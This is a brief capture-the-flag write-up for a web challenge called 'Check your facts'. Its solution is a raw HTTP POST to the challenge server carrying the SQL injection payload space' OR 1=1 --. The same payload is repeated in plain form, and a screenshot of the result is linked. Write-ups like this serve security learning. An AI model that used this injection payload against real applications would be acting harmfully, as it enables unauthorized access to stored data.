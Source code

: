 # Check your facts
Always check your facts. How are they stored, for example?
# Solution
```http
POST / HTTP/1.1
Host: pecan-check-your-facts.chals.io
Content-Length: 24
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="121", "Not A(Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://pecan-check-your-facts.chals.io
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://pecan-check-your-facts.chals.io/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close

query=space'+OR+1%3d1+--
```
Make sure you give the query `space' OR 1=1 --`
![image](https://github.com/LAVANYA-PIDIKITI/PECAN-_Main-Prelims/assets/98797256/634f69a2-f404-45bd-a1be-551e9127235e)
